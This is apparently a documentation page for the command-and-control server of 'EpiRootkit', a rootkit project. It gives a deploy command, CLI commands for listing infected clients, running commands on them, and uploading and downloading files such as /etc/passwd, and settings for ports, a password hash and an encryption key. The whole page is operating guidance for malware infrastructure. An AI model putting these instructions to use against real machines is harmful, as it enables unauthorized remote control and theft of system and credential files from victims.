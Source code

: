 ```yaml
---
title: "Overview"
description: "C2 server for EpiRootkit"
icon: "dashboard"
weight: 301
---
```


> This is the C2 Backend for the rootkit, while it can be used to manage the rootkit with the CLI commands described in this documentation, it's clearly not recommanded, and instead you should use the [Web Interface]({{< relref "../04-web-ui" >}}) to manage the rootkit.

## Quick Start

```bash
./deploy_c2.sh --c2    # Start C2 server on port 4444 + Web UI on port 3000
```

## Basic Commands

```bash
clients                 # List connected clients
auth 1 password        # Authenticate with client
exec 1 whoami          # Execute commands
upload 1 file.txt      # Upload files  
download 1 /etc/passwd # Download files
config 1               # Interactive configuration
```

## Configuration

Edit `attacking_program/config.env` if needed:

```env
C2_PORT=4444           # C2 server port
WEB_PORT=3000          # Web interface port  
C2_WEBUI_PASSWORD_HASH=348735...# SHA-512 hash for web UI password (required)
ENCRYPTION_KEY=0123... # 64-character hex key (required)
```

**Generate password hash**: `echo -n "yourpassword" | sha512sum`
